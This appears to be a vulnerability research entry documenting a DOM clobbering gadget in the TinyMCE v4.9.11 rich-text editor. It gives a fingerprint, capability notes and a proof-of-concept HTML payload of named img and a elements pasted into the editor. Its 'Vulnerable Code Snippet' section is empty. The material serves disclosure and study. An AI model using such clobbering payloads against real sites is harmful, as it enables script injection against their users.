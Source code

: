 ## TinyMCE

### Meta

+ Library: TinyMCE-v4
+ Version: v4.9.11
+ Stars: 14.9K
+ Fingerprint: `typeof(window.tinymce) !== undefined`
+ Input: Copy&Paste
+ Sanitizer: N/A
+ Capability: Any Tag & Any named property
+ CVE: N/A
+ Status: N/A

### Library

https://github.com/tinymce/tinymce


### Vulnerable Code Snippet

### PoC 

```html
<!--Library-->
<script src="https://cdn.tiny.cloud/1/kvw088syhtkdcjivzwu785cisjwpon4zfjj2isannsfsw555/tinymce/4/tinymce.min.js" referrerpolicy="origin"></script>

<script>
  tinymce.init({
  selector: 'textarea#default'
});
</script>
<textarea id="default">Hello, World!</textarea>
<!--Library-->


<!--Payload-->
<img name="currentScript" src="https://xxx.xxx.xxx">
<img name="attack" src="https://xxx.xxx.xxx">
<a name="attack" href="https://xxx.xxx.xxx">AAA</a>
<p>Copy & Paste the following rendered HTML elements to the editor and Run the following code: tinymce.activeEditor.getContent("default");</p>
<!--Payload-->
```